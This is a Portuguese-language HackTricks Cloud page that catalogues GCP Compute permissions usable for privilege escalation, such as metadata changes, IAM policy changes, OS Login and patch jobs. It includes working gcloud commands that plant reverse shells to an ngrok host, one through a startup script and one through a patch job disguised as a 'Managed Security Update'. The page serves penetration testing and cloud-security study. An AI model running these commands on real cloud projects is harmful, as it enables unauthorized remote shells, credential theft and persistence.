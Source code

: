 # GCP - Escalação de Privilégios de Computação

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para obter mais informações sobre Computação e VPC (rede) no GCP, verifique:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Observe que para realizar todos os ataques de escalonamento de privilégios que exigem modificar os metadados da instância (como adicionar novos usuários e chaves SSH) é **necessário ter permissões `actAs` sobre o SA anexado à instância**, mesmo que o SA já esteja anexado!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Com essa permissão, você pode **modificar** as informações de **metadados** de uma **instância** e alterar as **chaves autorizadas de um usuário**, ou **criar** um **novo usuário com permissões de sudo**. Portanto, você poderá executar via SSH em qualquer instância de VM e roubar a Conta de Serviço do GCP com a qual a Instância está sendo executada.\
Limitações:

* Observe que as Contas de Serviço do GCP em execução em instâncias de VM por padrão têm um **escopo muito limitado**
* Você precisará ser **capaz de entrar em contato com o servidor SSH** para fazer login

Para obter mais informações sobre como explorar essa permissão, verifique:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Você também poderia realizar esse ataque adicionando um novo script de inicialização e reiniciando a instância:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Esta permissão concede os **mesmos privilégios que a permissão anterior**, mas em instâncias específicas em vez de todo o projeto. As **mesmas vulnerabilidades e limitações da seção anterior se aplicam**.

### `compute.instances.setIamPolicy`

Esse tipo de permissão permitirá que você **conceda a si mesmo uma função com as permissões anteriores** e escalone privilégios abusando delas.

### **`compute.instances.osLogin`**

Se o **OSLogin estiver ativado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você **não terá privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com essa permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se o **OSLogin estiver ativado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você terá **privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com essa permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

É possível **criar uma máquina virtual com uma Conta de Serviço atribuída e roubar o token** da conta de serviço acessando os metadados para escalar privilégios para ela.

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se você tiver as permissões **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, você pode criar um [**trabalho ou implantação de patch**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Isso permitirá que você se mova lateralmente no ambiente e obtenha execução de código em todas as instâncias de computação dentro de um projeto.

Observe que no momento você **não precisa da permissão `actAs`** sobre a SA anexada à instância.

Se você deseja explorar manualmente isso, precisará criar um [**trabalho de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ou** [**implantação**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Para um trabalho de patch, execute:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Para implantar uma implantação de patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
A ferramenta [patchy](https://github.com/rek7/patchy) poderia ter sido usada no passado para explorar essa configuração incorreta (mas agora não está funcionando).

**Um atacante também poderia abusar disso para persistência.**

### `compute.machineImages.setIamPolicy`

**Conceda a si mesmo permissões extras** para Imagens de computação.

### `compute.snapshots.setIamPolicy`

**Conceda a si mesmo permissões extras** para um snapshot de disco.

### `compute.disks.setIamPolicy`

**Conceda a si mesmo permissões extras** para um disco.

### Bypass de Escopos de Acesso

Seguindo este link você encontra algumas [**ideias para tentar burlar os escopos de acesso**](../).

### Escalação de Privilégios Local na Instância de Computação GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
